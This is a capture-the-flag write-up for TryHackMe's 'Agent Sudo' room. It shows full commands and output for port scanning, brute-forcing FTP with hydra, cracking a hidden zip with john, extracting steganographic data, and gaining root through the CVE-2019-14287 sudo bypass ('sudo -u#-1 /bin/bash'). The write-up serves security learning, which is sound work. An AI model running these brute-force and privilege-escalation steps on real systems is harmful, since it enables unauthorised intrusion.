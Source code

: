 ```bash
# PLATFORM          . THM
# CTF NAME          . Agent Sudo
# DESCRIPTION       . You found a secret server located under the deep sea. Your task is to hack inside the server and reveal the truth.
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/agentsudoctf
```

```bash
sudo nmap -sSVC -T5 10.10.132.55 -p- -oN agentsudo
```

```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef1f5d04d47795066072ecf058f2cc07 (RSA)
|   256 5e02d19ac4e7430662c19e25848ae7ea (ECDSA)
|_  256 2d005cb9fda8c8d880e3924f8b4f18e2 (ED25519)

80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Annoucement
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

- If we navigate to the webserver on port `80`, all we get is 

```
Dear agents,  
  
Use your own **codename** as user-agent to access the site.  
  
From,  
Agent R
```

- This makes me think that we neeed to capture the request in burp suite and change the user-agent to a valid value.

- I've captured the request and sent it to Intruder.

- I've created a payload containing all uppercase letters A-Z and started a `sniper` attack.

```
GET / HTTP/1.1
Host: 10.10.132.55
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: §<A-Z>§
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

- All requests besides agent `R` and `C` had the same `status code` and `length` so I've considered those obsolete.

- If we modify the User-Agent to `R`, we get a warning. However, this confirms us that we're on the right track and using the right format. 

```
What are you doing! Are you one of the 25 employees? If not, I going to report this incident
```

- If we switch the user-agent to `C`, we see that burp captures another request

```
GET /agent_C_attention.php 
```

- The page is loaded and here's the content

```
Attention chris,

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak!

From,
Agent R
```

- We get our username, `chris`, along with some indication that the password might be easy to bruteforce.

- Let's try bruteforcing `ftp` first.

```bash
hydra -l chris -P /usr/share/wordlists/rockyou.txt 10.10.132.55 ftp
```

```
[21][ftp] host: 10.10.132.55   login: chris   password: c{redacted}l
```

- After logging in to `ftp`, we're able to find some files.

```bash
150 Here comes the directory listing.
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
```

```To_agentJ.txt
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
```

- This reveals that here's a steganography challenge and that the password of `Agent J` is hidden inside one of the pictures. 

- Running `steghide --extract -sf` against `cute-alien.jpg` asks for a passphrase, so I've moved to other checks for now.

- I've installed `binwalk` and used `binwalk -e` against both images. 

```bash

binwalk -e cutie.png 

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 528 x 528, 8-bit colormap, non-interlaced
869           0x365           Zlib compressed data, best compression
34562         0x8702          Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt
34820         0x8804          End of Zip archive, footer length: 22
```

- The `.zip` archive seems to be password protected, so we can make use of `john` to try to crack this.

- First, use `zip2john` to extract the hash from the `.zip` file

```bash
/opt/john/run/zip2john 8702.zip > zip_hash.txt
```

- Then, use `john` to crack the password. I've used the classic `rockyou.txt` file.

```bash
/opt/john/run/john -w=/usr/share/wordlists/rockyou.txt zip_hash.txt
```

>**NOTE**: A **COMPILED** version of `john` is needed ; I had the `jumbo` version installed from the official website / git clone of the `run` directory and it was missing some extensions, including `zip2john`.

- I tried `unziping` the arhive using `unzip -P [password] [filename]`

```
   skipping: To_agentR.txt           need PK compat. v5.1 (can do v4.6)
```

- So I managed to get the file using `7z` instead

```
7z x 8702.zip -p[passowrd]
```

```To_agentR.txt
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
```

- I've tried using `QXJlYTUx` as the passphrase asked when running `steghide --extract -sf cute-alien.jpg`, but it didn't work.

- It looks a bit like `base64` and using `echo "QXJlYTUx" | base64 -d` against the string reveals `{redacted}` in ASCII - that's the secret.

```
steghide --extract -sf cute-alien.jpg 
Enter passphrase: 
wrote extracted data to "message.txt".
```

```message.txt
Hi james,

Glad you find this message. Your login password is {redacted}!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```

- So we've got ourselves a pair of credentials: `james:{redacted}!`

- `sudo -l` has an interesting output, but let's focus on getting the 1st flag first.

```bash
User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
```

- First flag is located at `/home/james/user_flag.txt` alongside a `jpg` called `Alien_autospy.jpg`. 

- I've transferred the file to my box using `scp`

```bash
scp james@10.10.132.55:/home/james/Alien_autospy.jpg alien_autopsy.jpg
```

- well. a dead alien. now what? I had no clue what to do with this.

- `steghide --extract -sf` asks for a passphase, but I got no clue and I don't think bruteforcing this is the way to go.

- I've checked the hint and it says that we need to google about it.

- Here we go: The incident is called "Roswell Alien Autopsy". 

- Back to our victim box - we need to escalate privileges.

- The CTF is asking for the CVE number we'll use to exploit, so it is basically a hint that we need to find a vulnerability that can be leveraged in this environment.

```bash
james@agent-sudo:~$ cat /etc/lsb-release 

DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=18.04
DISTRIB_CODENAME=bionic
DISTRIB_DESCRIPTION="Ubuntu 18.04.3 LTS"
```

```bash
james@agent-sudo:~$ uname -a
Linux agent-sudo 4.15.0-55-generic #60-Ubuntu SMP Tue Jul 2 18:22:20 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
```

- I think I spent 2 hours looking for 4.1x Kernel exploits. 

- However, I've checked the `sudo version` using `sudo -V` and I was able to find an exploit that can be leveraged on this box.

```bash
sudo -V

Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2
```

- The exploit can be found here:[CVE-2019-14287](https://nvd.nist.gov/vuln/detail/CVE-2019-14287) and it specifies that in order to bypass `(ALL, !root) /bin/bash`, all we need to do is to run `sudo -u#-1 /bin/bash` instead.

```bash
james@agent-sudo:~$ sudo -u#-1 /bin/bash
root@agent-sudo:~# whoami
root
```

- This exploit works by using `sudo -u` (-u = specify user UID) with a negative value. Sudo doesn't check to see if the UID exists and it returns 0 when given an invalid value, 0 being the root UID and granting us root permissions instead.

- Last flag is in `/root/root.txt`

